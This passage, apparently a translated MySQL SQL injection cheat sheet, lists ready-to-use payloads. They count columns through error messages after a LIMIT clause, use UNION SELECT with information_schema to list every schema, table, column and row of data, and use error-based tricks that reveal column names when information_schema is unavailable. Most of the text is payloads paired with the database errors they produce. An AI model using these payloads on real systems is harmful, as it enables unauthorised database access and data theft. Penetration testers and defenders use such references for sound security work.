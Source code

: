 当启用了错误报告时，此方法非常有效。它可以帮助确定在注入点出现在 LIMIT 子句之后的情况下的列数。

| Payload                      | 错误           |
| ---------------------------- | --------------- |
| `1' LIMIT 1,1 INTO @--+`     | `使用的 SELECT 语句具有不同数量的列` |
| `1' LIMIT 1,1 INTO @,@--+`  | `使用的 SELECT 语句具有不同数量的列` |
| `1' LIMIT 1,1 INTO @,@,@--+` | `没有错误意味着查询使用 3 列` |

由于结果没有任何错误，这意味着查询使用 3 列: `-1' UNION SELECT 1,2,3--+`。

### 使用 information_schema 提取数据库

此查询检索服务器上所有模式（数据库）的名称。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata
```

此查询检索指定模式中所有表的名称（模式名称由 PLACEHOLDER 表示）。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=PLACEHOLDER
```

此查询检索指定表中所有列的名称。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=...
```

此查询旨在从特定表中检索数据。

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,data,0x7C) FROM ...
```

### 在没有 information_schema 的情况下提取列名

适用于 `MySQL >= 4.1` 的方法。

| Payload | 输出 |
| --- | --- |
| `(1)and(SELECT * from db.users)=(1)` | 操作数应包含 **4** 列 |
| `1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)` | 列 '**id**' 不能为 NULL |

适用于 `MySQL 5` 的方法。

| Payload | 输出 |
| --- | --- |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b)a` | 重复列名 '**id**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a` | 重复列名 '**name**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a` | 数据 |
